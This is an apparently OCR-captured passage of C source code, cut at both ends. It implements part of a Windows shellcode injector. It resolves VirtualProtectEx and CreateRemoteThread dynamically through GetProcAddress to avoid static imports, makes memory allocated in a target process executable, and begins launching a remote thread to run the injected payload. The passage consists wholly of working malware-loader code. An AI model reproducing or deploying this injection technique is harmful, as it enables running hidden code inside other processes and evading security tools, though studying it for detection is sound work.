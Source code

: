 ```c
        return 1;
    }

    //
    // UPDATE PERMISSIONS TO ALLOW EXECUTION
    //
    DWORD old_protect = NULL;

    BOOL( WINAPI * _VirtualProtectEx )
    (
        HANDLE hProcess,
        LPVOID lpAddress,
        SIZE_T dwSize,
        DWORD  flNewProtect,
        PDWORD lpflOldProtect
    );

    _VirtualProtectEx = ( BOOL(WINAPI *)
    (
        HANDLE hProcess,
        LPVOID lpAddress,
        SIZE_T dwSize,
        DWORD  flNewProtect,
        PDWORD lpflOldProtect   
    )) GetProcAddress( kernel32_dll_handle, "VirtualProtectEx" );

    if( NULL == _VirtualProtectEx )
    {
        // printf( "Could not resolve VirtualProtectEx!\n" );
        return 0;
    }

    return_check = _VirtualProtectEx( target_process, target_process_allocated_memory, payload_size, PAGE_EXECUTE_READWRITE, &old_protect );

    if( FALSE == return_check )
    {
        // printf( "[!] VirtualProtectEx() returned false! Error code: %d\n", GetLastError() );
        return 1;
    }

    //
    // EXECUTED SHELLCODE IN ALLOCATED MEMORY
    //
    HANDLE handle_remote_thread = NULL;

    HANDLE( WINAPI * _CreateRemoteThread )
    (
        HANDLE                 hProcess,
        LPSECURITY_ATTRIBUTES  lpThreadAttributes,
        SIZE_T                 dwStackSize,
        LPTHREAD_START_ROUTINE lpStartAddress,
        LPVOID                 lpParameter,
        DWORD                  dwCreationFlags,
        LPDWORD                lpThreadId   
    );

    _CreateRemoteThread = ( HANDLE(WINAPI *)
    (
        HANDLE                 hProcess,
        LPSECURITY_ATTRIBUTES  lpThreadAttributes,
        SIZE_T                 dwStackSize,
        LPTHREAD_START_ROUTINE lpStartAddress,
```